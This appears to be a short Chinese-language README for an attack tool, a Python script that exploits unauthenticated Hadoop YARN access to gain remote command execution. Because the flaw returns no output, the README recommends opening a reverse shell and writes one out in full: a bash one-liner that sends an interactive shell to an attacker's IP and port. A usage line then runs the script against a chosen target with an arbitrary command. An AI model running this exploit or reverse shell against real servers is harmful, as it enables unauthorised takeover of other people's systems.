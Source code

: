 # 工具介绍

*> HadoopYARN 未授权访问 rce
*> 因为该漏洞为无回显的漏洞，因此建议命令执行反弹shell。
*> Linux反弹shell：bash -i >& /dev/tcp/ip地址/端口 0>&1

# 工具的使用

使用：

``` 
python HadoopYARN_Unauthorized_RCE.py 目标地址 "cmd"
```

![image-20220602145832912](images/image-20220602145832912.png)